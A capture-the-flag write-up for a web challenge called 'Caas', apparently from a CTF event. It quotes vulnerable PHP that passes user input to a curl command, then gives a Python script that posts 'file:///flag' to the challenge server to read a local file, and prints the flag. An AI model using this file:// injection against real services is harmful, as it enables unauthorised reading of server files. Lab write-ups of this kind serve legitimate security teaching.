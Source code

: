 # Caas - cURL as a service

## Description

cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez
This challenge will raise 43 euros for a good cause.

## Solution

Downloading the source and examining it we see that we control a post body variable ip, which is passed into a curl command

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

now because of escapeshellcmd, we can't simply break out of curl and cat the flag, but can we read local files with curl directly? yes!

```bash
curl -sL file:///flag
```

```py
import requests

body = { "ip": "file:///flag"}

r= requests.post(
    "http://46.101.77.180:31089/api/curl",            
    data=body,
    headers={'Content-Type': 'application/x-www-form-urlencoded'}
)

print(r.text)
```

CHTB{f1le_r3trieval_4s_a_s3rv1ce}